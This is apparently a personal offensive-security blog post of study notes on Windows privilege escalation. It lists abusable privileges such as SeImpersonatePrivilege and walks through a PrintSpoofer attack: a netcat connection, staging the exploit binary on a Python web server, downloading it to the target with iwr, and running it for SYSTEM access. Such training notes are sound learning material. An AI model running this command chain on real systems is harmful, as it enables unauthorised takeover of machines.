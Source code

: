 ```yaml
---
layout: post
title: Windows Privesc Exploits
titledate: 09/16/23
tags: ["infosec","offsec", "privesc", "powershell", "exploit"]
---
```


#### privilege escalation exploits

1. application - vulnerabilities that are installed and execute with administrative privileges can elevate our privs if they can be exploited

2. windows kernel - vulnerabilities can be leveraged for priv esc

3. windows privileges - non priv users that have certain privileges like SeImpersonatePrivilege may be able to leverage them to perform priv esc. this priv by default gets assigned to members of these groups 
    - Administrators
    - LOCAL SERVICE
    - NETWORK SERVICE
    - SERVICE

some other privileges that can be leveraged to perform priv esc include 
- SeBackupPrivilege
- SeAssignPrimaryToken
- SeLoadDriver
- SeDebug

let's connect to the target

    $ nc 192.168.1.1 4444

check our assigned privs

    C:\> whoami /priv

bc we have the SeImpersonatePrivilege priv assigned we can attempt to utilize a PrintSpooler vulnerability

    $ wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe

so we retrieve it and host it 

    $ python3 -m http.server 80

then download it on our target

    PS > iwr -uri http://192.168.1.1/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe

and finally execute it

    PS > .\PrintSpoofer64.exe -i -c powershell.exe

if the exploit is successful we should hav system privs